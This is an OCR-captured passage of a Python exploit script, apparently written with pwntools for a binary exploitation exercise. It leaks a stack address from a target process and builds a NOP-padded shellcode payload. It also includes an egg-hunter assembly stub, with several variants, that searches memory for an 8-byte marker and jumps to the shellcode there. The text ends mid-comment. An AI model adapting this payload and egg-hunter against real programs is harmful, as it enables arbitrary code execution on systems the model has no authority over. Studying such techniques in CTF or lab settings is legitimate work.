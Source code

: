 ```


io = start()
res = io.recvuntil(delims="new stack")
print("____________________________________")
print(res)

print("____________________________________")
# Get the stack address
res = io.recvline()
res = io.recvlinesS(1)
print(res)
match = re.search(r"0x[0-9a-fA-F]+", res[0])
stck_addr = match.group(0)
print(f"stack address received: {stck_addr}")
stack_addr_int = int(stck_addr, 16)


NOP = b"\x90"
Signature = 8 * b"\x90"
BigPayload = NOP * (16 - BigShellCodeLen % 16 + len(Signature)) + BigShellCode

# THIS WORKS
# loopSHellCodeBare.s
OFFSET = 1_000_000
stack_addr_int = stack_addr_int + OFFSET

# smallAsm = f"""
# _start:
#     mov rsi, {hex(stack_addr_int)}
#     mov eax, 0x90909090
# findNOP:
#     cmp dword [rsi], eax
#     je found
#     dec rsi
#     jmp findNOP
# found:
#     jmp [rsi+4]
# """
signature = u64(Signature)

smallAsm = f"""
    .intel_syntax noprefix
    mov rbx,{hex(signature)}
    call g
g:  
    pop rsi
s:  
    cmp qword ptr [rsi],rbx
    je f
    inc rsi
    jmp s
f:  
    jmp rsi
"""

# smallAsm = f"""
# _start:
#     mov rsi, rsp
#     mov rax, 0x7430307730303077
# Loop:
#     cmp qword [rsi], rax
#     je  Fin
```